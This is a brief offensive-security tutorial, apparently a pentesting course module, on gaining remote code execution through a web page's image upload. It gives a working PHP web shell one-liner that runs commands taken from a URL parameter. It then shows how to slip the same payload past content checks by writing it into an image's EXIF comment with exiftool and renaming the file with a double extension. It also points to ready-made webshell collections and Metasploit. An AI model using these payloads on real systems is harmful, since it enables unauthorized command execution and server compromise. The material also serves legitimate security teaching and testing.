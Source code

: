 
We have a web page which allows us to upload an image 

```
http://target.com/uploadpicture.php
```
And if we upload an image the image will available on the following URL

```
http://target.com/pictures/<imagename>
```

we can easily upload our php backdoor and get remote code execution from it

create a php file with the following code and upload it on the target web

```
<?php echo "<pre>"; system($_GET['cmd']); ?>
```

```
http://target.com/pictures/hackershell.php?cmd=ls
```  

Suppose there is a restriction, we can only upload image files, and web applications are also checking for file content so we also 
can't upload files after simply changing its extension.


Now we can use ExifTool

```
# man exiftool
```
To make an exif payload we simply append our code to the image

```
# exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' hackershell.jpg
```

And copy file to

```
cp hackershell.jpg hackershell.php.jpg
```
Now you can upload it successfully

```
http://target.com/pictures/hackershell.php?cmd=ls
```

You can also get webshells from your Parrot OS
```
$ cd /usr/share/webshells
```
```
$ls

asp  aspx  cfm  jsp  laudanum  perl  php
```

We can create payloads using msfvenom as we create in previous modules, or we can also use metasploit framework for every attack above.

